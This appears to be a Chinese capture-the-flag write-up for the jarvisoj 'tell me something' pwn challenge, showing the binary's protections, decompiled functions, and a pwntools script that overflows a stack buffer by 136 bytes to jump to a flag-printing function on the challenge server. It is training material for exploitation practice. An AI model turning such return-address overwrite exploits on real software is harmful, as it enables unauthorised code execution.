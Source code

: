 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj tell me something
date: 2022-3-25 14:20:03
permalink: /pages/2e1547494524d198
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj tell me something

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_tell_me_something/guestbook'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-88h]

  write(1, "Input your message:\n", 0x14uLL);
  read(0, &v4, 0x100uLL);
  return write(1, "I have received your message, Thank you!\n", 0x29uLL);
}
```

good_game函数如下

```c
int good_game()
{
  FILE *v0; // rbx
  int result; // eax
  char buf; // [rsp+Fh] [rbp-9h]

  v0 = fopen("flag.txt", "r");
  while ( 1 )
  {
    result = fgetc(v0);
    buf = result;
    if ( (_BYTE)result == -1 )
      break;
    write(1, &buf, 1uLL);
  }
  return result;
}
```

readmessage函数如下

```c
ssize_t readmessage()
{
  __int64 v1; // [rsp+0h] [rbp-88h]

  return read(0, &v1, 0x100uLL);
}
```



## 思路分析

1. 目前信息：
   - `main`函数可溢出
   - `good_game`函数可直接打印`flag`
   - No PIE
2. 思路：
   - 溢出控制程序执行流到`good_game`即可获得`flag`

## exp

```python
from pwn import *
from LibcSearcher import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_tell_me_something/guestbook'
io=remote('node4.buuoj.cn',28491)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136
good_game=elf.symbols['good_game']
payload=flat(['a'*padding,good_game])
io.recv()
io.send(payload)
io.interactive()
```
